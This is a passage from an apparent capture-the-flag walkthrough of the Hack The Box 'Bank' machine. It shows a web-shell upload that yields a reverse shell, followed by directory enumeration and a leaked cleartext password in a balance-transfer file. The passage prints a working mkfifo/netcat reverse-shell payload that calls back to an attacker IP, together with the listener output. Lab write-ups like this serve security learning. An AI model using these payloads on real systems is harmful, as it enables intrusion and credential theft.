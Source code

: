 ```
-----------------------------30419209283130348382134040843
Content-Disposition: form-data; name="submitadd"


-----------------------------30419209283130348382134040843--
```
Once Uploaded the payload we can creft the following request and get a reverse shell:
```
POST /uploads/shell.htb HTTP/1.1
Host: bank.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: HTBBankAuth=abhglbjitc02c6g3d1ur2pkpu7
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 88

cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.18+4444+>/tmp/f
```
Got reverse shell.
```
root@kali:~/Documents/HTB/Boxes/Bank# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.18] from (UNKNOWN) [10.10.10.29] 58878
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
### Method 2 - Credential leakage
Running gobuster against bank.htb, we can see the following results:
```
/uploads              (Status: 301) [Size: 305] [--> http://bank.htb/uploads/]
/assets               (Status: 301) [Size: 304] [--> http://bank.htb/assets/]
/inc                  (Status: 301) [Size: 301] [--> http://bank.htb/inc/]
/server-status        (Status: 403) [Size: 288]
/balance-transfer     (Status: 301) [Size: 314] [--> http://bank.htb/balance-transfer/]
```
if we open /balance-transfer directory, we can see some reports with encrypted information.  
now we can download this files to examine them and see if they contains some valuable information.  
If we run a word count and sort on all the balance transfer files, we can see that one file contains lot less characters.  
```
581 941e55bed0cb8052e7015e7133a5b9c7.acc
581 09ed7588d1cd47ffca297cc7dac22c52.acc
257 68576f20e9732f1b2edc4df5b8533230.acc
```
If we do open this file, we can see that the encryption failed and we have credential in cleartext
```
[root@kali balance-transfer ]$ cat 68576f20e9732f1b2edc4df5b8533230.acc                                    
--ERR ENCRYPT FAILED
+=================+
| HTB Bank Report |
+=================+

===UserAccount===
Full Name: Christos Christopoulos
Email: chris@bank.htb
Password: !##HTBB4nkP4ssw0rd!##
CreditCards: 5
```